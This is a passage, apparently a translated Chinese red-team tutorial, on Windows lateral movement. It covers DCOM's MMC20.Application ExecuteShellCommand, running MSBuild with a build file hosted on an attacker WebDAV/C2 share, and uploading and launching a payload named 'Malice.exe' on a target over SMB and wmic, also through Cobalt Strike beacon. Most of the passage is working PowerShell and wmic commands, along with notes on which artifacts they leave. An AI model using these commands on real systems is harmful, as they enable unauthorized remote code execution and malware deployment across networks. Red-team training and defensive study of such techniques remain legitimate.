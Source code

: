 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDibK5icGCKgSJU9hIW86ibbYfrIqpibqT1fjQPAygOuFkhfc7GWiadhZOGCiaURJleu9ZfAVGYyhZyeoow/640?wx_fmt=png)

DCOM

组件对象模型（COM）是具有不同应用程序和语言的进程使用的一种协议，因此它们彼此通信。 COM 对象不能在引入了分布式 COM（DCOM）协议的网络上使用。我出色的同事 Matt Nelson 通过 Microsoft 管理控制台（MMC）2.0 脚本对象模型中的 ExecuteShellCommand 方法，通过 DCOM 发现了一种横向移动技术，该方法用于系统管理服务器的管理功能。

可以通过以下方式调用

[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.10.30")).Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\Calc.exe","0","0","0")

DCOM 使用 network-logon (type 3),o 这里还会遇到双跳问题。 PsExec 消除了双跳问题，因为与命令一起传递了凭据并生成了交互式登录会话（类型 2），但是问题是 ExecuteShellCommand 方法仅允许四个参数，因此如果传递的参数少于或大于四个进入，它出错了。另外，空格必须是它们自己的参数（例如，“ cmd.exe”，$ null，“ / c” 是三个参数），这消除了将带有 DCOM 的 PsExec 与执行 MSBuild 的可能性。从这里开始，有一些选择。

使用 WebDAV

将 XML 文件托管在不需要身份验证的 SMB 共享上（例如，使用 Impacket 的 SMBServer.py，但很可能要求攻击者在网络上拥有攻击机器）

尝试其他类似的 “ExecuteShellCommand” 方法

使用 WebDAV，它仍然使用 UNC 路径，但是如果 Windows 无法通过 445 和 139 到达路径，则 Windows 最终将退回到端口 80。使用 WebDAV，SSL 也是一个选择。唯一需要注意的是，WebDAV 在服务器上不起作用，因为默认情况下该服务在服务器操作系统上不存在。

[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.10.30")).Document.ActiveView.ExecuteShellCommand("c:\windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe",$null,"\\192.168.10.131\webdav\build.xml","7")

通过不需要任何身份验证即可访问 WebDAV 服务器（在本例中也是 C2 服务器），从而解决了双跳问题。  
此方法的问题在于它产生了两个进程：mmc.exe，因为从 MMC2.0 和 MSBuild.exe 调用了 DCOM 方法。  
另外，这确实会临时写入磁盘。 Webdav 写道

C\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

并且在执行后不会清除任何文件。 MSBuild 临时写入

C\ Users\[USER]\AppData\Local\Temp\[RANDOM]\

并会自行清理。巧妙的方法是，由于 MSBuild 使用 Webdav，因此 MSbuild 会清理 Webdav 创建的文件。  
本文还介绍了其他执行 DCOM 方法和防御建议。

https://www.cybereason.com/blog/dcom-lateral-movement-techniques

Remote File Upload

不一定是横向移动技术，值得注意的是，您可以生成自己的二进制文件，而不是使用 Cobalt Strikes 内置插件（可能更隐秘）。这是通过对目标 C $ 共享具有 SMB 的上载特权（即管理权限）来实现的，然后您可以将其无阶段的二进制文件上载到并通过 wmic 或 DCOM 执行。  
请注意，beacon 没有 “check in”。需要通过命令手动完成

link target.domain

不使用 CS:

copy C:\Windows\Temp\Malice.exe \\target.domain\C$\Windows\Temp

wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\Temp\Malice.exe”

Other Code Execution Options
